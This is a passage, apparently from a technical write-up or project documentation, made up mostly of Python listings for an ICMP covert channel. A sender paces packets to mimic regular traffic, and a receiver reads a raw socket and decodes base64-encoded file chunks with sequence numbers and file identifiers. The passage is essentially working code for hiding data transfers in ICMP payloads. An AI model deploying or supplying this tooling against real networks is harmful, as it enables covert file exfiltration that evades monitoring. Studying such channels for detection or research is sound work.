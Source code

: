 ```python
async def send_icmp_packets(buffer: List[IP], interval: int) -> None:
    for icmp_packet in buffer:
        send(icmp_packet)
        await asyncio.sleep(interval)
```
<div>
<center><i> Listing 9. Function to send ICMP packets in a regular network traffic manner. </i></center><br>
</div>

Receiving ICMP messages comes to listening on a properly described network socket. Knowing the sizes of the IP and ICMP headers, the received packets can be decoded in order to retrieve a hidden information from sender (Listing 10).

```python     
ICMP_PACKET = {
    "IP_HEADER_SIZE": 20,
    "ICMP_HEADER_SIZE": 8,
    "MAX_ICMP_PAYLOAD_SIZE": 1472
}

def listen_on_icmp_socket(icmp_socket: socket.socket):
    while True:
        data = icmp_socket.recv(sum(ICMP_PACKET.values()))

        ip_header = data[:ICMP_PACKET["IP_HEADER_SIZE"]]
        source_ip = get_dotted_decimal_ip_address(unicode_ip_address=ip_header[-8:-4])
        destination_ip = get_dotted_decimal_ip_address(unicode_ip_address=ip_header[-4:])

        payload = data[ICMP_PACKET["IP_HEADER_SIZE"] + ICMP_PACKET["ICMP_HEADER_SIZE"]:]

        decode_payload(payload=payload)
```
    
<div>
<center><i> Listing 10. Function to listen on ICMP socket and retrieve messages.' payload. </i></center><br>
</div>

```python
def decode_payload(payload: bytes):
    splitted_payload = str(payload, "utf8").split(":")
    
    file_chunk = str(base64.b64decode(splitted_payload[0]), "utf-8")
    sequence_number = int(splitted_payload[1])
    file_identifier = str(base64.b64decode(splitted_payload[2]), "utf-8")
    
    print(file_chunk)
```
    
<div>
<center><i> Listing 11. Function to decode and print received data chunk in UTF-8 format. </i></center><br>
</div>
